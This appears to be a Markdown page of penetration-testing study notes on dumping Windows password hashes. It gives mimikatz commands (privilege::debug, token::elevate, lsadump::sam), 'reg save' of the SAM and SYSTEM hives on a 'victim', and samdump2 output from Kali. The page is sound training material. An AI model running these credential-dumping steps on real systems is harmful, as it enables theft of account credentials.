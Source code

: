 ### Retrieving Password Hashes
On Windows systems, hashed passwords are stored in the Security Accounts Manager (SAM). To deter offline SAM database password attacks Microsoft introduced the SYSKEY feature which partially encrypts the SAM file.

Windows NT-based operating systems, up to and including Windows 2003, store two different password hashes: 
- LAN Manager ([LM](https://en.wikipedia.org/wiki/LM_hash)), which is based on DES, and 
- NT LAN Manager ([NTLM](https://en.wikipedia.org/wiki/NTLM)), which uses MD4 hashing. 

From Windows Vista on, the operating system disables LM by default and uses NTLM, which, among other things, is case sensitive, supports all Unicode characters, and does not split the hash into smaller, weaker parts. However, NTLM hashes stored in the SAM database are still not salted.

We can use mimikatz to mount in-memory attacks designed to dump the SAM hashes.

Among other things, mimikatz modules facilitate password hash extraction from the Local Security Authority Subsystem (LSASS) process memory where they are cached.

Since LSASS is a privileged process running under the SYSTEM user, we must launch mimikatz from an administrative command prompt. 
To extract password hashes, we must first execute two commands. 
1. `privilege::debug` to enable the SeDebugPrivilge access right required to tamper with another process. If this commands fails, mimikatz was most likely not executed with administrative privileges.
2. `token::elevate` to elevate the security token from high integrity (administrator) to SYSTEM integrity. If mimikatz is launched from a SYSTEM shell, this step is not required. 

```cmd
C:\> C:\Tools\password_attacks\mimikatz.exe
...
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
...
```
Now we can use lsadump::sam to dump the contents of the SAM database:
```cmd
mimikatz # lsadump::sam
```

### Dumping Hashes from SAM via Registry
1. On the victim, dump the registry hives required for hash extraction:
    ```cmd
    reg save hklm\system system
    reg save hklm\sam sam
    ```
2. On Kali, once the files are dumped and exfiltrated, dump hashes with **samdump2** on kali:
    ```sh
    kali@kali:~$ samdump2 system sam 
    *disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
    low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
    ```
Ref: [Dumping Hashes from SAM via Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
